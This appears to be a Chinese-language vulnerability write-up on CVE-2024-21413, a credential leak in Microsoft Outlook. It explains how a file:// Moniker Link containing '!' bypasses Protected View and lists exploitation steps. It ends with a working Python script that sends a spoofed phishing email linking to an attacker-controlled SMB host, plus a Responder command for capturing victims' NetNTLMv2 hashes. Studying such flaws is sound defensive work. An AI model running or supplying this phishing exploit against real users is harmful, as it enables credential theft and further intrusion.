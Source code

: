 # Microsoft Outlook 凭据泄漏漏洞 (CVE-2024-21413)

## 概述 (Overview)

Microsoft Outlook 是微软公司出品的电子邮件客户端和个人信息管理器软件。此漏洞 (CVE-2024-21413) 是一种凭据泄漏漏洞，允许攻击者通过发送包含特制 `file://` 协议超链接（利用名字对象/Moniker Link 机制）的电子邮件，在用户点击该链接时绕过 Outlook 的“受保护视图” (Protected View) 安全功能，从而窃取用户的 NetNTLMv2 哈希。

该漏洞影响以下 Microsoft Office 版本 (及更早版本，具体需参考官方公告)：

*   Microsoft Office LTSC 2021 (起始版本 16.0.1)
*   Microsoft 365 企业应用版 (起始版本 16.0.1)
*   Microsoft Office 2019 (起始版本 16.0.1)
*   Microsoft Office 2016 (16.0.0 到 16.0.5435.1001 之前的版本)

## 识别特征 (Identification)

从外部扫描难以直接识别此漏洞。识别主要依赖于了解目标环境是否正在使用受影响版本的 Microsoft Outlook。攻击通常通过钓鱼邮件发起，因此无法像扫描 Web 服务那样进行主动探测。

## 漏洞原理 (Vulnerability Principle)

Outlook 能够呈现 HTML 邮件内容，并处理各种超链接，包括指向本地或网络文件的 `file://` 链接以及通过 COM 调用的名字对象链接 (Moniker Links)。

1.  **受保护视图 (Protected View):** Outlook 通常会使用“受保护视图”来打开来自不可信来源的附件或链接，以限制潜在的恶意行为，例如阻止自动连接到远程 SMB 共享。
2.  **链接处理:** 当 Outlook 遇到 `file://` 协议的链接时，正常情况下，如果目标是远程路径，可能会触发安全警告或被受保护视图拦截。
3.  **绕过机制:** 该漏洞的关键在于，攻击者可以构造一个特殊的 `file://` 链接，其路径中包含感叹号 (`!`)，例如 `file://<attacker_ip_or_hostname>/share!anything`。这种格式的链接被 Outlook 错误地处理，绕过了“受保护视图”的检查。
4.  **SMB 认证触发:** 当用户点击这个特制的链接时，由于绕过了保护机制，Outlook 会尝试通过 SMB/CIFS 协议访问指定的网络路径（即使该路径实际上并不存在于攻击者服务器上）。
5.  **凭据泄漏:** Windows 在尝试进行 SMB 连接时，会自动发送用户的 NetNTLMv2 哈希用于网络身份验证。攻击者只需在 `<attacker_ip_or_hostname>` 上运行一个 SMB 监听服务（如 Responder），即可捕获这个哈希。

**核心问题在于：** 特定格式 (`file://...!...`) 的名字对象链接 (Moniker Link) 未被 Outlook 的“受保护视图”正确处理，导致对潜在恶意 SMB 路径的访问尝试，从而在用户不知情的情况下泄露了其 NTLM 凭据哈希。虽然理论上利用名字对象链接可能导致 RCE (通过 COM)，但目前公开的利用主要集中在凭据泄漏。

## 利用步骤 (Exploitation Steps - Conceptual)

1.  **设置监听器:** 在攻击者控制的服务器上启动一个 SMB 监听器（例如使用 `Responder` 工具）来捕获传入的 NTLM 认证请求。
2.  **构造恶意链接:** 创建一个特制的 `file://` 超链接，指向攻击者的服务器，并在路径中包含 `!` 字符，例如：`file://<attacker_server_ip>/resource!trigger`。
3.  **制作钓鱼邮件:** 将此恶意超链接嵌入到一封看似无害的电子邮件中。
4.  **发送邮件:** 将该电子邮件发送给使用受影响版本 Outlook 的目标用户。
5.  **触发漏洞:** 当用户在 Outlook 中打开邮件并点击该恶意链接时，Outlook 会绕过保护机制，尝试连接到攻击者的 SMB 服务器。
6.  **捕获凭据:** 攻击者的 SMB 监听器捕获到受害者机器发送过来的 NetNTLMv2 哈希。
7.  **(后续)** 攻击者可以尝试离线破解捕获到的哈希以获取明文密码，或在支持 NTLM 中继的环境中进行中继攻击。

## 攻击演示代码 (Proof of Concept - Python Script)

以下 Python 脚本演示了如何构造并发送包含恶意链接的电子邮件：

```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

# --- 配置参数 ---
sender_email = 'attacker@malicious.com'  # 伪造的发件人邮箱
sender_name = 'Important Notification'    # 伪造的发件人名称
receiver_email = 'victim@target.com'    # 目标用户的邮箱
smtp_server = 'YOUR_SMTP_SERVER'          # 用于发送邮件的 SMTP 服务器地址
smtp_port = 25                           # SMTP 端口 (通常是 25, 587, 或 465)
smtp_user = 'YOUR_SMTP_USERNAME'         # SMTP 登录用户名 (如果需要认证)
smtp_password = 'YOUR_SMTP_PASSWORD'     # SMTP 登录密码 (如果需要认证)
attacker_ip = 'ATTACKER_LISTENER_IP'     # 运行 SMB 监听器的攻击者 IP 地址
email_subject = "Action Required: Please Review Document"

# --- 构造恶意 HTML 内容 ---
# 注意: href 中的 '!' 是触发漏洞的关键
html_content = f"""\
<!DOCTYPE html>
<html lang="en">
<body>
    <p>Dear User,</p>
    <p>Please click the link below to access the shared document:</p>
    <p><a href="file://{attacker_ip}/shared!document">Click here to view document</a></p>
    <p>Thank you.</p>
</body>
</html>"""

# --- 创建邮件对象 ---
message = MIMEMultipart()
message['Subject'] = email_subject
message["From"] = formataddr((sender_name, sender_email))
message["To"] = receiver_email

# 添加 HTML 内容
msgHtml = MIMEText(html_content, 'html')
message.attach(msgHtml)

# --- 发送邮件 ---
try:
    # 连接到 SMTP 服务器
    # 如果使用 SSL/TLS (例如端口 465)，使用 smtplib.SMTP_SSL()
    # 如果使用 STARTTLS (例如端口 587)，使用 server.starttls()
    server = smtplib.SMTP(smtp_server, smtp_port)
    server.ehlo() # 可选

    # 如果 SMTP 服务器需要认证
    # server.starttls() # 如果使用 STARTTLS
    # server.login(smtp_user, smtp_password)

    # 发送邮件
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print(f"Email sent successfully to {receiver_email}")

except Exception as e:
    print(f"Failed to send email: {e}")
finally:
    try:
        server.quit()
    except:
        pass # 忽略退出时的错误

```

**配合使用的工具:**

*   **Responder:** 在攻击者服务器上运行 `sudo responder -I <interface_name>` (例如 `eth0` 或 `ens5`) 来启动 SMB 监听器并捕获 NetNTLMv2 哈希。

**执行流程:**

1.  在攻击机上运行 `responder`。
2.  修改上述 Python 脚本中的 `attacker_ip` 为攻击机的 IP，并配置好 SMTP 发送参数。
3.  运行 Python 脚本将邮件发送给受害者。
4.  当受害者在易受攻击的 Outlook 客户端中点击邮件中的链接时，`responder` 将捕获到 NetNTLMv2 哈希。